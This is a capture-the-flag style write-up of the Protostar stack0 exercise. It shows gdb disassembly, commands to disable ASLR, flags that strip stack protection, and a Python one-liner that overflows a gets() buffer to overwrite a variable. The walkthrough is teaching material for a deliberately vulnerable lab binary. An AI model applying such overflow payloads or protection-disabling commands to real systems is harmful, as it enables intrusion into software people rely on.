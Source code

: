 check aslr: `sysctl -a --pattern "randomize"`  
disable aslr temporarily: `sudo /sbin/sysctl -w kernel.randomize_va_space=0`  
compile with: `-fno-stack-protection` and `-z execstack`

`volatile` is a keyword in C indicating that this variable can change anytime by outside the code and is omitted from compiler optimization.

```C
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
```

The integer `modified` is at [esp+0x5c] and is assigned to 0.  
Our buffer is right above it starting at [esp+0x1c]. We can easily verify the size:

```C
(gdb) print 0x5c-0x1c
$1 = 64
```
A pointer to our buffer is 'pushed' onto the stack. After the call to `gets` the value of `modified` is checked against 0. The `gets` function has no boundery checks so we can write more than 64 bytes into the buffer and land in our modified variable. Every value besides 0 would evalute to true so writing 1 more byte into the buffer would set the least significant byte (because of the endianess) and would print the winning message.

```C
(gdb) x/d $esp+0x5c
0xbffff69c:     2
(gdb) x/xw $esp+0x5c
0xbffff69c:     0x00000002
(gdb) x/5xb $esp+0x5b
0xbffff69b:     0x41    0x02    0x00    0x00    0x00

user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 64 + '\x02'" | ./stack0
you have changed the 'modified' variable
```

**Note:**

The print function appends a new line character `0xa` at the end. To avoid this we can `use sys.stdout.write()`:

```bash
user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 3" | hexdump -C
00000000  41 41 41 0a                                       |AAA.|
00000004
user@protostar:/opt/protostar/bin$ python -c "import sys; sys.stdout.write('\x41' * 3)" | hexdump -C
00000000  41 41 41                                          |AAA|
00000003
```

**Resources:**

https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/

https://docs.python.org/2/library/sys.html#sys.stdout
